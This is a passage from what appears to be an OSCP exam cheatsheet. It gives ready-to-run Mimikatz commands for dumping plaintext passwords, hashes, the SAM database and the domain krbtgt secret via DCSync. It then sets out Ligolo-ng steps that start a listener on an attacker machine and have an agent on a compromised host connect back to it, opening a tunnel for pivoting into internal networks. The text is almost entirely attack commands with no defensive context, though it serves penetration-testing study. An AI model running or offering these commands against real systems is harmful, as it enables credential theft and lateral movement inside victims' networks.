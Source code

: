 ## Mimikatz

[](https://github.com/peterrakolcza/OSCP-Cheatsheet#mimikatz)

```powershell
privilege::debug

token::elevate

sekurlsa::logonpasswords #hashes and plaintext passwords
lsadump::sam
lsadump::sam SystemBkup.hiv SamBkup.hiv
lsadump::dcsync /user:krbtgt
lsadump::lsa /patch #both these dump SAM

#OneLiner
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"

```

## Ligolo-ng

[](https://github.com/peterrakolcza/OSCP-Cheatsheet#ligolo-ng)

```powershell
#Creating interface and starting it.
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up

#Kali machine - Attacker machine
./proxy -laddr 0.0.0.0:9001 -selfcert

#windows or linux machine - compromised machine
agent.exe -connect <LHOST>:9001 -ignore-cert

#In Ligolo-ng console
session #select host
ifconfig #Notedown the internal network's subnet
start #after adding relevent subnet to ligolo interface

#Adding subnet to ligolo interface - Kali linux
sudo ip r add <subnet> dev ligolo
```
